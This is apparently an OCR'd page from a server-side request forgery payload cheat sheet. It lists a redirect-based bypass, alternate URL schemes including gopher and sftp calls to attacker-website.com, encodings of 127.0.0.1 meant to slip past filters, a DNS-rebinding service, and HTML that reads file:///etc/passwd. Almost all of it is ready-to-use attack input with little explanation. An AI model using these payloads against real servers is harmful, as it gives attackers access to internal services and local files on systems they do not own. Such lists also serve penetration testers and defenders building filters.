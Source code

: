 ## Add location field in response header from server request.

```
HTTP/1.1 301 Moved Permanently
Server: nginx
Connection: close
Content-Length: 0
Location: http://127.0.0.1
```
## Use different URL scheme

```
file://path/to/file
dict://<user>;<auth>@<host>:<port>/d:<word>:<database>:<n>
dict://127.0.0.1:1337/stats
ftp://127.0.0.1/
sftp://attacker-website.com:1337/
tftp://attacker-website.com:1337/TESTUDPPACKET
ldap://127.0.0.1:389/%0astats%0aquit
ldaps://127.0.0.1:389/%0astats%0aquit
ldapi://127.0.0.1:389/%0astats%0aquit
gopher://attacker-website.com/_SSRF%0ATest!
```


## Use different IP address format

Dotted hexadecimal IP

```
0x7f.0x0.0x0.0x1
```
Dotless hexadecimal IP

```
0x7f001
```

Dotless hexadecimal IP with padding (padding is 0a0b0c0d)

```
0x0a0b0c0d7f000001
```

Dotless decimal IP 

```
2130706433
```


Dotted decimal IP with overflow (256)

```
383.256.256.257
```

Dotted octal IP

```
0177.0.0.01
```


Dotless octal IP

```
017700000001
```

Dotted octal IP with padding

```
00177.000.0000.000001
```


## Short-hand IP address

```
0.0.0.0 => 0
127.0.0.1 => 127.1
127.0.0.1 => 127.0.1
```


## IPv4 address mapping

```
[::ffff:7f00:1]
[::ffff:127.0.0.1]
[::127.0.0.1]
[::ffff:7f00:1%25]
[::ffff:127.0.0.1%eth0]
```


## Enclosed alphanumerics

```
127。0。0。1
127｡0｡0｡1
127．0．0．1
⑫７｡⓪．𝟢。𝟷
𝟘𝖃𝟕𝒇｡𝟘𝔵𝟢｡𝟢𝙭⓪｡𝟘𝙓¹
⁰𝔁𝟳𝙛𝟢０１
２𝟏𝟑𝟢𝟕𝟢６𝟺𝟛𝟑
𝟥𝟪³。𝟚⁵𝟞。²₅𝟞。²𝟧𝟟
𝟢₁𝟳₇｡０｡０｡𝟢𝟷
𝟎𝟢𝟙⑦⁷。０００。𝟶𝟬𝟢𝟘。𝟎₀𝟎𝟢０𝟣
[::𝟏②₇．𝟘．₀．𝟷]
[::𝟭２𝟟｡⓪｡₀｡𝟣%𝟸𝟭⑤]
[::𝚏𝕱ᶠ𝕗:𝟏₂７｡₀｡𝟢｡①]
[::𝒇ℱ𝔣𝐹:𝟣𝟤７。₀。０。₁%②¹𝟧]
𝟎𝚇𝟕𝖋｡⓪｡𝟣
𝟎ˣ𝟩𝘍｡𝟷
𝟘𝟘①𝟕⑦．１
⓪𝟘𝟙𝟳𝟽｡𝟎𝓧₀｡𝟏
```
## DNS Pining [1u.ms](http://1u.ms/)

Single record
```
dig A make-127-0-0-1-rr.1u.ms
```

Multiple record

```
dig A make-127-0-0-1-and-127-127-127-127-rr.1u.ms
```

## Server-side processing of arbitrary HTML and JS

```
<iframe src="file:///etc/passwd" width="400" height="400">
<img src onerror="document.write('<iframe src=//127.0.0.1></iframe>')">
```
